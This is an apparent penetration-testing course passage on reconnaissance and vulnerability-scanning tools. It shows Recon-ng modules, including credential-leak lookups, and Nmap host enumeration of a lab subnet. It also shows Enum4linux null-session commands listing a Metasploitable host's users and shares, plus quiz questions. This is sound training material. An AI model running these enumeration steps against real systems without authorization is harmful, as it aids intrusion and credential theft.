
In the Maltego Transform Hub, you can select free and commercial products that can be integrated with Maltego. For example, you can integrate Maltego with Shodan or with a website called HaveIBeenPwned that allows you to query whether a person or an email address has been exposed as part of a breach (and potentially gather credentials stolen from such breaches). Dozens of additional tools and commercial products can be integrated with Maltego, as shown in Figure 10-7.

Recon-ng
Recon-ng is a menu-based tool that can be used to automate the information gathering of OSINT. Recon-ng comes with Kali Linux and several other penetration testing Linux distributions, and it can be downloaded from https://github.com/lanmaster53/recon-ng. Figure 10-8 shows the Recon-ng welcome menu.

Recon-ng comes with dozens of modules that can be used to perform detailed searches of public records, interesting files, DNS records, and so on. Example 10-9 includes the output of the show modules command in Recon-ng, which lists all the available modules.
Example 10-9 — Recon-ng Modules
Discovery
---------
discovery/info_disclosure/cache_snoop
discovery/info_disclosure/interesting_files
Exploitation
------------
exploitation/injection/command_injector
exploitation/injection/xpath_bruter
Import
------
import/csv_file
import/list
Recon
-----
recon/companies-contacts/bing_linkedin_cache
recon/companies-contacts/jigsaw/point_usage
recon/companies-contacts/jigsaw/purchase_contact
recon/companies-contacts/jigsaw/search_contacts
recon/companies-contacts/linkedin_auth
recon/companies-multi/github_miner
recon/companies-multi/whois_miner
recon/contacts-contacts/mailtester
recon/contacts-contacts/mangle
recon/contacts-contacts/unmangle
recon/contacts-credentials/hibp_breach
recon/contacts-credentials/hibp_paste
recon/contacts-domains/migrate_contacts
recon/contacts-profiles/fullcontact
recon/credentials-credentials/adobe
recon/credentials-credentials/bozocrack
recon/credentials-credentials/hashes_org
recon/domains-contacts/metacrawler
recon/domains-contacts/pgp_search
recon/domains-contacts/whois_pocs
recon/domains-credentials/pwnedlist/account_creds
recon/domains-credentials/pwnedlist/api_usage
recon/domains-credentials/pwnedlist/domain_creds
recon/domains-credentials/pwnedlist/domain_ispwned
recon/domains-credentials/pwnedlist/leak_lookup
recon/domains-credentials/pwnedlist/leaks_dump
recon/domains-domains/brute_suffix
recon/domains-hosts/bing_domain_api
recon/domains-hosts/bing_domain_web
recon/domains-hosts/brute_hosts
recon/domains-hosts/builtwith
recon/domains-hosts/certificate_transparency
recon/domains-hosts/google_site_api
recon/domains-hosts/google_site_web
recon/domains-hosts/hackertarget
recon/domains-hosts/mx_spf_ip
recon/domains-hosts/netcraft
recon/domains-hosts/shodan_hostname
recon/domains-hosts/ssl_san
recon/domains-hosts/threatcrowd
recon/domains-vulnerabilities/ghdb
recon/domains-vulnerabilities/punkspider
recon/domains-vulnerabilities/xssed
recon/domains-vulnerabilities/xssposed
recon/hosts-domains/migrate_hosts
recon/hosts-hosts/bing_ip
recon/hosts-hosts/freegeoip
recon/hosts-hosts/ipinfodb
recon/hosts-hosts/resolve
recon/hosts-hosts/reverse_resolve
recon/hosts-hosts/ssltools
recon/hosts-locations/migrate_hosts
recon/hosts-ports/shodan_ip
recon/locations-locations/geocode
recon/locations-locations/reverse_geocode
recon/locations-pushpins/flickr
recon/locations-pushpins/instagram
recon/locations-pushpins/picasa
recon/locations-pushpins/shodan
recon/locations-pushpins/twitter
recon/locations-pushpins/youtube
recon/netblocks-companies/whois_orgs
recon/netblocks-hosts/reverse_resolve
recon/netblocks-hosts/shodan_net
recon/netblocks-ports/census_2012
recon/netblocks-ports/censysio
recon/ports-hosts/migrate_ports
recon/profiles-contacts/dev_diver
recon/profiles-contacts/github_users
recon/profiles-profiles/namechk
recon/profiles-profiles/profiler
recon/profiles-profiles/twitter_mentioned
recon/profiles-profiles/twitter_mentions
recon/profiles-repositories/github_repos
recon/repositories-profiles/github_commits
recon/repositories-vulnerabilities/gists_search
recon/repositories-vulnerabilities/github_dorks
Reporting
---------
reporting/csv
reporting/html
reporting/json
reporting/list
reporting/proxifier
reporting/pushpin
reporting/xlsx
reporting/xml
[recon-ng][default] >
Recon-ng can query several third-party tools, including Shodan, as well as Twitter, Instagram, Flickr, YouTube, Google, GitHub repositories, and many other sites. For some of those tools and sources, you must register and obtain an API key. You can add the API key by using the Recon-ng keys add command. To list all available APIs that Recon-ng can interact with, use the keys list command, as demonstrated in Example 10-10.
Example 10-10 — The Recon-ng keys list Command
+--------------------------+
| Name | Value |
+--------------------------+
| bing_api | |
| builtwith_api | |
| censysio_id | |
| censysio_secret | |
| flickr_api | |
| fullcontact_api | |
| github_api | |
| google_api | |
| google_cse | |
| hashes_api | |
| instagram_api | |
| instagram_secret | |
| ipinfodb_api | |
| jigsaw_api | |
| jigsaw_password | |
| jigsaw_username | |
| linkedin_api | |
| linkedin_secret | |
| pwnedlist_api | |
| pwnedlist_iv | |
| pwnedlist_secret | |
| shodan_api | |
| twitter_api | |
| twitter_secret | |
+---------------------------+
The use command allows you to use a Recon-ng module. After you select the module, you can invoke the show info command to display the module options and information. You can then set the source (target domain, IP address, email address, and so on) with the set command and then use the run command to run the automated search. In Example 10-11, the Hostname Resolver module is run to query the web.h4cker.org domain information.
Example 10-11 — Using Recon-ng Modules
[recon-ng][default][resolve] > show info
Name: Hostname Resolver
Path: modules/recon/hosts-hosts/resolve.py
Author: Tim Tomes (@LaNMaSteR53)
Description:
Resolves the IP address for a host. Updates the 'hosts' table with the results.
Options:
Name Current Value Required Description
------ ------------- -------- -----------
SOURCE web.h4cker.org yes source of input (see 'show info' for details)
Source Options:
default SELECT DISTINCT host FROM hosts WHERE host IS NOT NULL AND ip_address IS NULL
<string> string representing a single input
<path> path to a file containing a list of inputs
query <sql> database query returning one column of inputs
Comments:
* Note: Nameserver must be in IP form.
[recon-ng][default][resolve] > set SOURCE web.h4cker.org
SOURCE => web.h4cker.org
[recon-ng][default][resolve] > run
[*] web.h4cker.org => 185.199.108.153
[*] web.h4cker.org => 185.199.109.153
[*] web.h4cker.org => 185.199.110.153
[*] web.h4cker.org => 185.199.111.153
-------
SUMMARY
-------
[*] 3 total (3 new) hosts found.
[recon-ng][default][resolve] >
Example 10-12 shows the Shodan module being used to query for information pertaining to the example.org domain.
Example 10-12 — Querying Shodan Using Recon-ng
[recon-ng][default][shodan_hostname] > set SOURCE example.org
SOURCE => example.org
[recon-ng][default][shodan_hostname] > run
-----------
EXAMPLE.ORG
-----------
[*] Searching Shodan API for: hostname:example.org
[*] [port] 190.106.130.4 (587/<blank>) - host2.example.org
[*] [host] host2.example.org (190.106.130.4)
[*] [port] 62.173.139.23 (22/<blank>) - example.org
[*] [host] example.org (62.173.139.23)
[*] [port] 94.250.248.230 (22/<blank>) - example.org
[*] [host] example.org (94.250.248.230)
[*] [port] 91.210.189.62 (22/<blank>) - bisertokareva.example.org
[*] [host] bisertokareva.example.org (91.210.189.62)
[*] [port] 104.131.127.104 (22/<blank>) - l.example.org
[*] [host] l.example.org (104.131.127.104)
[*] [port] 91.210.189.62 (143/<blank>) - bisertokareva.example.org
[*] [host] bisertokareva.example.org (91.210.189.62)
[*] [port] 190.106.130.3 (110/<blank>) - host2.example.org
...
<output omitted for brevity>
...
[*] [port] 62.173.139.23 (21/<blank>) - example.org
[*] [host] example.org (62.173.139.23)
-------
SUMMARY
-------
[*] 67 total (17 new) hosts found.
[*] 67 total (67 new) ports found.
[recon-ng][default][shodan_hostname] >
You can learn about all the Recon-ng options and commands at https://hackertarget.com/recon-ng-tutorial/.
Censys
Censys, a tool developed by researchers at the University of Michigan, can be used for passive reconnaissance to find information about devices and networks on the Internet. It can be accessed at https://censys.io. Censys provides a free web and API access plan that limits the number of queries a user can perform. It also provides several other paid plans that allow for premium support and additional queries. Figure 10-9 shows a screenshot of the Censys website. Figure 10-9 displays the results for a query for 8.8.8.8 (Google's public DNS server).

Module 3 discusses additional tools that can be used for passive reconnaissance. The Art of Hacking GitHub repository also provides numerous other OSINT and passive reconnaissance tools and documentation; see https://theartofhacking.org/github.
That concludes our discussion of passive reconnaissance tools. Now let's turn our attention to active reconnaissance tools.
Tools for Active Reconnaissance
Active reconnaissance involves actively gathering information about a victim by using tools such as port and vulnerability scanners. The following sections describe some of the most popular tools for active reconnaissance.
Nmap and Zenmap
Module 3 discusses Nmap in detail, including the most common options and types of scans available in Nmap. The enumeration of hosts is one of the first tasks that needs to be performed in active reconnaissance. Host enumeration could be performed in an internal network and externally (sourced from the Internet). When performed externally, you typically want to limit the IP addresses that you are scanning to just the ones that are part of the scope of the test. Doing so reduces the chances of inadvertently scanning an IP address that you are not authorized to test.
When performing an internal host enumeration, you typically scan the full subnet or subnets of IP addresses being used by the target. Example 10-13 shows a quick Nmap scan being performed to enumerate all hosts in the 10.1.1.0/24 subnet and any TCP ports they may have open. For additional information about the default ports that Nmap scans, see https://nmap.org/book/man-port-specification.html.
Example 10-13 — Host Enumeration Using Nmap
Nmap scan report for 10.1.1.1
Host is up (0.000057s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
8080/tcp open http-proxy
MAC Address: 00:0C:29:DD:5D:ED (VMware)
Nmap scan report for test.h4cker.org (10.1.1.2)
Host is up (0.000043s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
139/tcp open netbios-ssn
445/tcp open microsoft-ds
MAC Address: 00:0C:29:73:03:CC (VMware)
Nmap scan report for 10.1.1.11
Host is up (0.00011s latency).
Not shown: 996 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
8080/tcp open http-proxy
MAC Address: 00:0C:29:3A:9B:81 (VMware)
Nmap scan report for 10.1.1.12
Host is up (0.000049s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
MAC Address: 00:0C:29:79:23:C9 (VMware)
Nmap scan report for 10.1.1.13
Host is up (0.000052s latency).
Not shown: 996 closed ports
PORT STATE SERVICE
22/tcp open ssh
88/tcp open kerberos-sec
443/tcp open https
8080/tcp open http-proxy
MAC Address: 00:0C:29:FF:F5:4F (VMware)
Nmap scan report for 10.1.1.14
Host is up (0.000051s latency).
Not shown: 977 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
445/tcp open microsoft-ds
512/tcp open exec
513/tcp open login
514/tcp open shell
1099/tcp open rmiregistry
1524/tcp open ingreslock
2049/tcp open nfs
2121/tcp open ccproxy-ftp
3306/tcp open mysql
5432/tcp open postgresql
5900/tcp open vnc
6000/tcp open X11
6667/tcp open irc
8009/tcp open ajp13
8180/tcp open unknown
MAC Address: 00:0C:29:D0:E5:8A (VMware)
Nmap scan report for 10.1.1.21
Host is up (0.000080s latency).
Not shown: 845 closed ports, 154 filtered ports
PORT STATE SERVICE
22/tcp open ssh
MAC Address: 00:0C:29:A3:05:34 (VMware)
Nmap scan report for 10.1.1.22
Host is up (0.00029s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE
22/tcp open ssh
MAC Address: 00:0C:29:E4:DF:1D (VMware)
Nmap scan report for 10.1.1.66
Host is up (0.0000050s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
22/tcp open ssh
Nmap done: 256 IP addresses (9 hosts up) scanned in 7.02 seconds
root@kali:~#
Example 10-13 shows that nine hosts in the 10.1.1.0/24 subnet were found. You can also see the open TCP ports at each host.
Zenmap is a graphical unit interface (GUI) tool for Nmap. Figure 10-10 shows the Zenmap tool and the output of the same scan performed in Example 10-13.

Zenmap provides a feature that allows you to illustrate the topology of the hosts it finds. Figure 10-11 shows the Topology tab of the Zenmap tool.

Refer to Module 3 for additional information about the most commonly used Nmap options and to learn about the Nmap Scripting Engine (NSE). The Art of Hacking GitHub repository (https://theartofhacking.org/github) also has several cheat sheets for different tools, including Nmap.
Enum4linux
Enum4linux is a great tool for enumerating SMB shares, vulnerable Samba implementations, and corresponding users. Example 10-14 shows the output of a detailed scan using Enum4linux against the host with IP address 10.1.1.14 that was discovered by Nmap in Example 10-13.
Example 10-14 — Using Enum4linux
[V] Dependent program "nmblookup" found in /usr/bin/nmblookup
[V] Dependent program "net" found in /usr/bin/net
[V] Dependent program "rpcclient" found in /usr/bin/rpcclient
[V] Dependent program "smbclient" found in /usr/bin/smbclient
[V] Dependent program "polenum" found in /usr/bin/polenum
[V] Dependent program "ldapsearch" found in /usr/bin/ldapsearch
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Jun 23 19:48:00
==========================
| Target Information |
==========================
Target ........... 10.1.1.14
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
=================================================
| Enumerating Workgroup/Domain on 10.1.1.14 |
=================================================
[V] Attempting to get domain name with command: nmblookup -A '10.1.1.14'
[+] Got domain/workgroup name: WORKGROUP
=========================================
| Nbtstat Information for 10.1.1.14 |
=========================================
Looking up status of 10.1.1.14
METASPLOITABLE <00> - B <ACTIVE> Workstation Service
METASPLOITABLE <03> - B <ACTIVE> Messenger Service
METASPLOITABLE <20> - B <ACTIVE> File Server Service
..__MSBROWSE__.<01> - <GROUP> B <ACTIVE> Master Browser
WORKGROUP <00> - <GROUP> B <ACTIVE> Domain/Workgroup Name
WORKGROUP <1d> - B <ACTIVE> Master Browser
WORKGROUP <1e> - <GROUP> B <ACTIVE> Browser Service Elections
MAC Address = 00-00-00-00-00-00
==================================
| Session Check on 10.1.1.14 |
==================================
[V] Attempting to make null session using command: smbclient -W 'WORKGROUP' //'10.1.1.14'/ipc$ -U''%'' -c 'help' 2>&1
[+] Server 10.1.1.14 allows sessions using username '', password ''
========================================
| Getting domain SID for 10.1.1.14 |
========================================
[V] Attempting to get domain SID with command: rpcclient -W 'WORKGROUP' -U''%'' 10.1.1.14 -c 'lsaquery' 2>&1
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup
===================================
| OS information on 10.1.1.14 |
===================================
[V] Attempting to get OS info with command: smbclient -W 'WORKGROUP' //'10.1.1.14'/ipc$ -U''%'' -c 'q' 2>&1
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 10.1.1.14 from smbclient:
[V] Attempting to get OS info with command: rpcclient -W 'WORKGROUP' -U''%'' -c 'srvinfo' '10.1.1.14' 2>&1
[+] Got OS info for 10.1.1.14 from srvinfo:
METASPLOITABLE Wk Sv PrQ Unx NT SNT metasploitable server (Samba 3.0.20-Debian)
platform_id : 500
os version : 4.9
server type : 0x9a03
==========================
| Users on 10.1.1.14 |
==========================
[V] Attempting to get userlist with command: rpcclient -W 'WORKGROUP' -c querydispinfo -U''%'' '10.1.1.14' 2>&1
index: 0x1 RID: 0x3f2 acb: 0x00000011 Account: games Name: games Desc: (null)
index: 0x2 RID: 0x1f5 acb: 0x00000011 Account: nobody Name: nobody Desc: (null)
index: 0x3 RID: 0x4ba acb: 0x00000011 Account: bind Name: (null) Desc: (null)
index: 0x4 RID: 0x402 acb: 0x00000011 Account: proxy Name: proxy Desc: (null)
index: 0x5 RID: 0xbbe acb: 0x00000010 Account: omar Name: (null) Desc: (null)
index: 0x6 RID: 0x4b4 acb: 0x00000011 Account: syslog Name: (null) Desc: (null)
index: 0x7 RID: 0xbba acb: 0x00000010 Account: user Name: just a user,111,, Desc: (null)
index: 0x8 RID: 0x42a acb: 0x00000011 Account: www-data Name: www-data Desc: (null)
index: 0x9 RID: 0x3e8 acb: 0x00000011 Account: root Name: root Desc: (null)
index: 0xa RID: 0x3fa acb: 0x00000011 Account: news Name: news Desc: (null)
index: 0xb RID: 0x4c0 acb: 0x00000011 Account: postgres Name: PostgreSQL administrator,,, Desc: (null)
index: 0xc RID: 0x3ec acb: 0x00000011 Account: bin Name: bin Desc: (null)
index: 0xd RID: 0x3f8 acb: 0x00000011 Account: mail Name: mail Desc: (null)
index: 0xe RID: 0x4c6 acb: 0x00000011 Account: distccd Name: (null) Desc: (null)
index: 0xf RID: 0x4ca acb: 0x00000011 Account: proftpd Name: (null) Desc: (null)
index: 0x10 RID: 0x4b2 acb: 0x00000011 Account: dhcp Name: (null) Desc: (null)
index: 0x11 RID: 0x3ea acb: 0x00000011 Account: daemon Name: daemon Desc: (null)
index: 0x12 RID: 0x4b8 acb: 0x00000011 Account: sshd Name: (null) Desc: (null)
index: 0x13 RID: 0x3f4 acb: 0x00000011 Account: man Name: man Desc: (null)
index: 0x14 RID: 0x3f6 acb: 0x00000011 Account: lp Name: lp Desc: (null)
index: 0x15 RID: 0x4c2 acb: 0x00000011 Account: mysql Name: MySQL Server,,, Desc: (null)
index: 0x17 RID: 0x4b0 acb: 0x00000011 Account: libuuid Name: (null) Desc: (null)
index: 0x18 RID: 0x42c acb: 0x00000011 Account: backup Name: backup Desc: (null)
index: 0x19 RID: 0xbb8 acb: 0x00000010 Account: msfadmin Name: msfadmin,,, Desc: (null)
index: 0x1a RID: 0x4c8 acb: 0x00000011 Account: telnetd Name: (null) Desc: (null)
index: 0x1b RID: 0x3ee acb: 0x00000011 Account: sys Name: sys Desc: (null)
index: 0x1c RID: 0x4b6 acb: 0x00000011 Account: klog Name: (null) Desc: (null)
index: 0x1d RID: 0x4bc acb: 0x00000011 Account: postfix Name: (null) Desc: (null)
index: 0x1e RID: 0xbbc acb: 0x00000011 Account: service Name: ,,, Desc: (null)
index: 0x1f RID: 0x434 acb: 0x00000011 Account: list Name: Mailing List Manager Desc: (null)
index: 0x20 RID: 0x436 acb: 0x00000011 Account: irc Name: ircd Desc: (null)
index: 0x21 RID: 0x4be acb: 0x00000011 Account: ftp Name: (null) Desc: (null)
index: 0x22 RID: 0x4c4 acb: 0x00000011 Account: tomcat55 Name: (null) Desc: (null)
index: 0x23 RID: 0x3f0 acb: 0x00000011 Account: sync Name: sync Desc: (null)
index: 0x24 RID: 0x3fc acb: 0x00000011 Account: uucp Name: uucp Desc: (null)
[V] Attempting to get userlist with command: rpcclient -W 'WORKGROUP' -c enumdomusers -U''%'' '10.1.1.14' 2>&1
user:[games] rid:[0x3f2]
user:[nobody] rid:[0x1f5]
user:[bind] rid:[0x4ba]
user:[proxy] rid:[0x402]
user:[omar] rid:[0xbbe]
user:[syslog] rid:[0x4b4]
user:[user] rid:[0xbba]
user:[www-data] rid:[0x42a]
user:[root] rid:[0x3e8]
user:[news] rid:[0x3fa]
user:[postgres] rid:[0x4c0]
user:[bin] rid:[0x3ec]
user:[mail] rid:[0x3f8]
user:[distccd] rid:[0x4c6]
user:[proftpd] rid:[0x4ca]
user:[dhcp] rid:[0x4b2]
user:[daemon] rid:[0x3ea]
user:[sshd] rid:[0x4b8]
user:[man] rid:[0x3f4]
user:[lp] rid:[0x3f6]
user:[mysql] rid:[0x4c2]
user:[gnats] rid:[0x43a]
user:[libuuid] rid:[0x4b0]
user:[backup] rid:[0x42c]
user:[msfadmin] rid:[0xbb8]
user:[telnetd] rid:[0x4c8]
user:[sys] rid:[0x3ee]
user:[klog] rid:[0x4b6]
user:[postfix] rid:[0x4bc]
user:[service] rid:[0xbbc]
user:[list] rid:[0x434]
user:[irc] rid:[0x436]
user:[ftp] rid:[0x4be]
user:[tomcat55] rid:[0x4c4]
user:[sync] rid:[0x3f0]
user:[uucp] rid:[0x3fc]
======================================
| Share Enumeration on 10.1.1.14 |
======================================
[V] Attempting to get share list using authentication
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
tmp Disk oh noes!
opt Disk
IPC$ IPC IPC Service (metasploitable server (Samba 3.0.20-Debian))
ADMIN$ IPC IPC Service (metasploitable server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
WORKGROUP METASPLOITABLE
[+] Attempting to map shares on 10.1.1.14
…
<output omitted for brevity>
...
The first and second highlighted lines in Example 10-14 show that a user with username omar was enumerated (along with others). The additional highlighted lines show different SMB shares that Enum4linux was able to enumerate.
Refer to Module 3 for additional tools that can be used for information gathering.
10.2.4 Practice — Common Tools for Reconnaissance and Enumeration
You have just started a new engagement with a client in the publishing industry. They have a lot of registered domains and subdomains for their products. You need to investigate their DNS footprint to get a sense of their web-facing attack surface. Which tools will help you do this? (Choose three.)
During a pentest, you are searching a webserver for files that contain information that you can use in the exploitation phase of the test. You are interested in finding information about your client from exposed file metadata and EXIF information. Which tool would you use to scan the server?
You are conducting passive reconnaissance of a target and would like to find out what servers are registered to the client by querying a range of DNS tools and search engines. What tool will you select for this purpose?
You are interested in scanning client domains for internet-connected server information, including information from various IoT devices, open ports, server OS, and OS version. Which tool can be used to identify vulnerable and exposed systems on the internet as part of a passive reconnaissance activity?
You are evaluating OSINT tools as part of a reconnaissance effort. Which tool will you use to obtain information about people, companies, and other targets?
Which penetration test tool can perform detailed searches of public records, interesting files, and DNS records?
It is important to know the difference between active and passive reconnaissance tools so that you avoid detection if necessary. Identify whether each reconnaissance tool is passive or active.
- theHarvester — Passive (queries public data sources and search engines without sending packets to the victim)
- Nmap — Active (sends packets directly to target hosts to enumerate open ports and services)
- Shodan — Passive (queries an external search engine database; no direct contact with the target)
- Maltego — Passive (gathers information from public records and third-party data sources)
- Enum4linux — Active (directly queries SMB services on target systems)
- Censys — Passive (queries the Censys database of Internet-wide scan data)
- Zenmap — Active (GUI front-end for Nmap that sends packets to target hosts)
- nslookup — Passive (queries DNS servers using standard protocol lookups without probing the target directly)
10.2.5 Common Tools for Vulnerability Scanning
There are numerous vulnerability scanning tools, including open-source and commercial vulnerability scanners, as well as cloud-based services and tools. The following are some of the most popular vulnerability scanners:
- OpenVAS
- Nessus
- Nexpose
- Qualys
- SQLmap
- Nikto
- OWASP Zed Attack Proxy (ZAP)
- w3af
- DirBuster
- Brakeman
- Open Security Content Automation Protocol (SCAP) scanners
- Wapiti
- Scout Suite
- WPScan (Wordpress scanner)
Brakeman, SCAP, Wapiti, Scout Suite, and WPScan are not discussed
further in this course. For more information, visit their websites:
https://brakemanscanner.org/
https://www.open-scap.org/
https://wapiti.sourceforge.io/
https://github.com/nccgroup/ScoutSuite
https://wpscan.org/?
OWASP lists additional vulnerability scanning tools not covered in
this module at
https://www.owasp.org/index.php/Category:Vulnerability_Scanning_Tools.
OpenVAS
OpenVAS is an open-source vulnerability scanner that was created by Greenbone Networks. The OpenVAS framework includes several services and tools that enable you to perform detailed vulnerability scanning against hosts and networks.
OpenVAS can be downloaded from https://www.openvas.org, and the documentation can be accessed at https://docs.greenbone.net/#user_documentation.
OpenVAS also includes an API that allows you to programmatically interact with its tools and automate the scanning of hosts and networks. The OpenVAS API documentation can be accessed at https://docs.greenbone.net/#api_documentation.
Figure 10-12 shows a screenshot of the OpenVAS scan results dashboard.

Figure 10-13 shows multiple critical remote code execution vulnerabilities found by OpenVAS in the host with IP address 10.1.1.14.
You can easily start a scan in OpenVAS by navigating to Scans → Tasks and selecting either Task Wizard or Advanced Task Wizard. You can also manually configure a scan by creating a new task. Figure 10-14 shows a screenshot of the OpenVAS Advanced Task Wizard, where a new task is created to launch a scan of the host with the IP address 10.1.1.66.

You can schedule scans by using the API, by using the Task Wizard, or by navigating to Configuration → Schedules. Figure 10-15 shows a screenshot of the OpenVAS scheduling configuration window.

Nessus
The Nessus scanner from Tenable has several features that allow you to perform continuous monitoring and compliance analysis. Nessus can be downloaded from https://www.tenable.com/downloads/nessus.
Tenable also has a cloud-based solution called Tenable.io. For information about Tenable.io, see https://www.tenable.com/products/tenable-io.
Nexpose
Nexpose is a vulnerability scanner created by Rapid7 that is very popular among professional penetration testers. It supports integrations with other security products.
Rapid7 also has several vulnerability scanning solutions that are used for vulnerability management, continuous monitoring, and secure development lifecycle.
Qualys
Qualys is a security company that created one of the most popular vulnerability scanners in the industry. It also has a cloud-based service that performs continuous monitoring, vulnerability management, and compliance checking. This cloud solution interacts with cloud agents, virtual scanners, scanner appliances, and Internet scanners.
Information about the Qualys scanner and cloud platform can be accessed at https://www.qualys.com.
Tools like Qualys and Nessus also provide features that can be used for configuration compliance.
SQLmap
SQLmap is often considered a web vulnerability and SQL injection tool. It helps automate the enumeration of vulnerable applications, as well as the exploitation of SQL injection techniques that you learned in Module 6, "Exploiting Application-Based Vulnerabilities." You can download SQLmap from http://sqlmap.org.
